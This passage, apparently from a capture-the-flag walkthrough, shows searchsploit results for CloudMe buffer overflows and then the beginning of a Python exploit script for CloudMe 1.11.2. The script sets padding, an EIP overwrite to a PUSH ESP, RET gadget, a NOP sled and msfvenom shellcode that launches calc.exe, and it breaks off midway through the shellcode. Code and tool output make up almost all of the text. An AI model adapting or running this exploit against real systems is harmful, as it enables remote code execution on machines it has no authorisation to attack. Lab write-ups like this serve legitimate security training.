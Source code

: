 ```
┌──(root💀nehal)-[~]
└─# searchsploit cloudme
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                    | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                    | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                                   | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                                            | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                                     | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                                        | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                    | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                           | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                                            | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                         | windows_x86-64/remote/44784.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We see for version 1.11.2 of CloudMe, we have a Buffer Overflow exploit.

Let us mirror it and see what it is.

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
```